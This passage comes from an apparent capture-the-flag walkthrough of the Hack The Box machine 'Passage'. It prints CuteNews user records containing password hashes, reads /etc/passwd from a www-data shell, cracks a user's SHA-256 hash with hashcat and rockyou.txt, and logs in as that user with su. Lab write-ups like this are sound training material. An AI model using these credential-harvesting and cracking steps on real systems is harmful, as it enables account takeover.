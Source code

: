 ```console
a:1:{s:4:"name";a:1:{s:9:"kim-swift";a:9:{s:2:"id";s:10:"1592483309";s:4:"name";s:9:"kim-swift";s:3:"acl";s:1:"3";s:5:"email";s:15:"kim@example.com";s:4:"nick";s:9:"Kim Swift";s:4:"pass";s:64:"f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca";s:3:"lts";s:10:"1592487096";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"3";}}}
a:1:{s:4:"name";a:2:{s:6:"egre55";a:11:{s:2:"id";s:10:"1598829833";s:4:"name";s:6:"egre55";s:3:"acl";s:1:"4";s:5:"email";s:15:"egre55@test.com";s:4:"nick";s:6:"egre55";s:4:"pass";s:64:"4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc";s:4:"more";s:60:"YToyOntzOjQ6InNpdGUiO3M6MDoiIjtzOjU6ImFib3V0IjtzOjA6IiI7fQ==";s:3:"lts";s:10:"1598906881";s:3:"ban";s:1:"0";s:6:"avatar";s:26:"avatar_egre55_ykxnacpt.php";s:6:"e-hide";s:0:"";}s:6:"hacker";a:11:{s:2:"id";s:10:"1598910896";s:4:"name";s:6:"hacker";s:3:"acl";s:1:"4";s:5:"email";s:20:"hacker@hacker.hacker";s:4:"nick";s:6:"hacker";s:4:"pass";s:64:"e7d3685715939842749cc27b38d0ccb9706d4d14a5304ef9eee093780eab5df9";s:3:"lts";s:10:"1598910911";s:3:"ban";s:1:"0";s:4:"more";s:60:"YToyOntzOjQ6InNpdGUiO3M6MDoiIjtzOjU6ImFib3V0IjtzOjA6IiI7fQ==";s:6:"avatar";s:26:"avatar_hacker_jpyoyskt.php";s:6:"e-hide";s:0:"";}}}
a:1:{s:4:"name";a:1:{s:4:"hack";a:6:{s:2:"id";s:10:"1600428102";s:4:"name";s:4:"hack";s:3:"acl";s:1:"4";s:5:"email";s:13:"hack@hack.com";s:4:"nick";s:4:"hack";s:4:"pass";s:64:"051375546db9782e3debc25e0241edf1d5e5e2ec0f183dd8634ca5b2c8968bb8";}}}
a:1:{s:5:"email";a:1:{s:13:"hack@hack.com";s:4:"hack";}}
a:1:{s:2:"id";a:1:{i:1592483309;s:9:"kim-swift";}}
```

### Checking the users on the box with shell 
```console
www-data@passage:/var/www/html/CuteNews/cdata/users$ cat /etc/passwd | grep -i bash
root:x:0:0:root:/root:/bin/bash
nadav:x:1000:1000:Nadav,,,:/home/nadav:/bin/bash
paul:x:1001:1001:Paul Coles,,,:/home/paul:/bin/bash
```
As nadav and paul are users on the box and from the decoded output above, we can see that there is entry for both paul and nadav with their password hash.

```
paul:paul@passage.htb:e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd
nadav:nadav@passage.htb:7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1
```
#### Cracking the hash with hashcat
From the hash identifier on [this](https://hashes.com/en/tools/hash_identifier) site, I found the hash might be SHA-256, and looking at the  [hashcat](https://hashcat.net/wiki/doku.php?id=example_hashes) page, the mode for SHA-256 in hashcat is 1400.

```console
local@local:~/Documents/htb/boxes/passage$ hashcat -m 1400 hash /usr/share/wordlists/rockyou.txt 
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd:atlanta1               
```

And we are able to crack the hash of paul with wordlist `rockyou.txt` which comes as default in most of the penetration testing distros.

### Trying to login on the box as paul

```console
www-data@passage:/var/www/html/CuteNews/cdata/users$ su paul
Password: 
paul@passage:/var/www/html/CuteNews/cdata/users$ 
```
And we are able to log in as paul on the box.
